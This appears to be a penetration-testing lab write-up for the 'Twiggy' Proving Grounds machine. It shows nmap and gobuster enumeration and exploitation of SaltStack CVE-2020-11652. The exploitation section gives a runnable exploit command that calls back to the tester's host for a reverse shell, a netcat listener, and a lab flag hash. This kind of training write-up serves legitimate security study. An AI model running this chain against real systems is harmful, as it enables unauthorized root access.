 ```yaml
---
Date: 2024-08-31
Platform: PG-Practice
Category: Linux
Difficulty: Easy
Status: Complete
IP: 192.168.222.62
Writeup: https://systemweakness.com/twiggy-proving-grounds-oscp-prep-practice-easy-b6d9c05c3be4
---
```

# Twiggy

Went down the rabbit hole with port 80 & port 8000 too quickly, thinking this would require SQL injection or some sort of weird user enumeration to get into a web platform. 

Turns out the I needed to run nmap again with a full port scan (`-p- -T5`) and pick up ALL the ports before an aggressive service scan (`-A -p 22,55,ect`). 

2nd scan picked up `4505` and `4506` which correspond to ZeroMQ ZMTP 2.0 (saltStack). Looking up Saltstack showed a vulnerability (CVE-2020-11652)
# Resolution summary
- Basic Nmap scan, found 4 ports
	- Checked OpenSSH 7.4 but exploits wouldn't work (user enumeration)
	- Checked website (p=80) and found Mezzanine site
		- Attempted SQL through login
- Re-ran Nmap scan with `-p- -T` followed by `-A` for found ports
	- Identified 4505 & 4506 - ZeroMQ ZMTP 2.0 (SaltStack)
- Found python exploit for Saltstack
	- Checked python code
	- Ran netcat listener on port 80
	- Ran exploit - root on listener. 

## Improved skills
- ALWAYS run Nmap twice (and use `-p- -T5`)
- Try listening on a common port (eg. port 80) if your exploit doesn't initially work

## Used tools
- nmap
- gobuster: `gobuster dir -u  http://192.168.222.62:8000 -w //usr/share/dirb/wordlists/common.txt`

---

# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -p- -T5 192.168.222.62
sudo nmap -p 22,53,80,4505,4506,8000 -A 192.168.222.62
```

Enumerated open TCP ports:
```
sudo nmap -p- -T5 192.168.222.62 
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt

[686.7sec = 11.4mins]
---
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 3.X|4.X (88%), MikroTik RouterOS 6.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:mikrotik:routeros:6.15
Aggressive OS guesses: Linux 3.11 - 4.1 (88%), Linux 3.16 (88%), Linux 3.10 - 3.12 (86%), Linux 4.4 (86%), Linux 4.9 (86%), Linux 3.2.0 (85%), MikroTik RouterOS 6.15 (Linux 3.3.5) (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   604.31 ms 192.168.45.1
2   604.23 ms 192.168.45.254
3   604.32 ms 192.168.251.1
4   604.40 ms 192.168.222.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.04 seconds
```

---

# Enumeration
## Port 22 - OpenSSH 7.4 (protocol 2.0)
## Port 55 - NLnet Labs NSD
## Port 80 - HTTP (nginx 1.16.1)
Mezzanine website
![[Pasted image 20240831212036.png]]
Login page
![[Pasted image 20240831212120.png]]
## Port 4505 - ZeroMQ ZMTP 2.0 (SaltStack)
## Port 4506 -  ZeroMQ ZMTP 2.0 (SaltStack)
## Port 8000 - HTTP (Apache)
`gobuster dir -u  http://192.168.222.62:8000 -w //usr/share/dirb/wordlists/common.txt
![[Pasted image 20240831200454.png]]`http:\\192.168.222.62:8000\index` (Same as `login` and `run`)
![[Pasted image 20240831200636.png]]
# Exploitation
## Name of the technique
https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py

Exploit: `python 48421.py --master 192.168.222.62 --port 4506 -lh 192.168.45.246 -lp 80 --exec-choose master`
Caught reverse shell with NetCat on port 80: `nc -lvnp 80`

---
# Lateral Movement
## Local Enumeration
Not required (logged in as root)
## Lateral Movement vector
Not required (logged in as root)

---
# Privilege Escalation
Not required (logged in as root)

---
# Trophy & Loot
proof.txt - a985dd04611192b6db023d6f877a1503